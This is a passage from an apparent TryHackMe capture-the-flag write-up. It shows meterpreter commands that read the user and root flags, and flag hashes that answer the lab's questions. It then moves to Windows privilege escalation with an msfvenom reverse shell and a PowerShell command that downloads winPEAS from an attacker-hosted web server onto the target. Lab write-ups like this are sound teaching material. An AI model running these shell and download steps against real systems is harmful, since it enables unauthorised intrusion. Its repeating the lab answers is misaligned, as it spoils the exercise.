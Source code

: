 meterpreter > cat user.txt 
759bd8af507517bcfaede78a21a73e39

## #4.6 - What is the root flag?

meterpreter > cd C:\users\administrator\desktop
meterpreter > ls
Listing: C:\users\administrator\desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  1029  fil   2019-08-04 13:36:42 +0200  System Scheduler.lnk
100666/rw-rw-rw-  282   fil   2019-08-03 19:43:54 +0200  desktop.ini
100666/rw-rw-rw-  32    fil   2019-08-04 20:48:59 +0200  root.txt

meterpreter > cat root.txt
7e13d97f05f7ceb9881a3eb3d78d3e72

# [Task 5] Privilege Escalation Without Metasploit

## #5.0 - Instructions

In this task we will escalate our privileges without the use of meterpreter/metasploit!

Firstly, we will pivot from our netcat session that we have established, to a more stable reverse shell.

Once we have established this we will use winPEAS to enumerate the system for potential vulnerabilities, before using this information to escalate to Administrator.

## #5.1 - Now we can generate a more stable shell using msfvenom, instead of using a meterpreter, This time let’s set our payload to windows/shell_reverse_tcp

Let’s first download winPEAS.bat and make it available through our web server:

$ wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASbat/winPEAS.bat
$ python -m http.server

## #5.2 - After generating our payload we need to pull this onto the box using [powershell](https://tryhackme.com/room/powershell). Tip: It’s common to find `C:\Windows\Temp` is world writable!

In our reverse shell, we can now download WinPEAS:

powershell -c "Invoke-WebRequest -Uri 'http://10.9.**.**:8000/WinPEAS.bat' -OutFile 'c:\windows\temp\winpeas.exe'"

## #5.3
